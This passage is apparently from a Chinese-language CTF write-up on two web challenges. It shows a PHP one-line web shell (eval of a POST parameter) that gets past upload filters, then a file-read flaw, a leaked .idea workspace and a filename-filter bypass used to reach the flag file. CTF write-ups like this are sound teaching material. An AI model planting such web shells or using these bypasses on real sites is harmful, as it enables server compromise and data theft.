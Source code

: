 需要注意的是所有请求都要维持在同一 session 下。

这题终于有点爆破的意思了。

## Upload

尝试上传 php 一句话木马，发现过滤了 `<?` 和 `php`，对前者利用 `<script>` 绕过，后者则大写绕过。payload：

```php
<script language="PHP">
  eval($_POST['ant']);
</script>
```

上传 getshell，在上级目录得到 `flag.php`。

## Code

题目链接中含有 `?jpg=hei.jpg`，猜测可能可以通过这个读文件，尝试 `?jpg=index.php`，F12 得到 base64 后的源代码，解码：

```php
<?php
/**
 * Created by PhpStorm.
 * Date: 2015/11/16
 * Time: 1:31
 */
header('content-type:text/html;charset=utf-8');
if(! isset($_GET['jpg']))
    header('Refresh:0;url=./index.php?jpg=hei.jpg');
$file = $_GET['jpg'];
echo '<title>file:'.$file.'</title>';
$file = preg_replace("/[^a-zA-Z0-9.]+/","", $file);
$file = str_replace("config","_", $file);
$txt = base64_encode(file_get_contents($file));

echo "<img src='data:image/gif;base64,".$txt."'></img>";

/*
 * Can you find the flag file?
 *
 */

?>
```

注意这里会对 `file` 进行过滤，将非数字 / 字母删除，并将 `config` 换成 `_`，但是我们并不知道我们要读的文件是什么。

这时可以注意到注释：`Created by PhpStorm`，猜想是 `.idea` 泄漏，因此访问 `/.idea/workspace.xml`，可以发现文件 `fl3g_ichuqiu.php`。由于 `_` 不是数字或字母，我们应用上述规则访问 `fl3gconfigichuqiu.php`：

```
index.php?jpg=fl3gconfigichuqiu.php
```
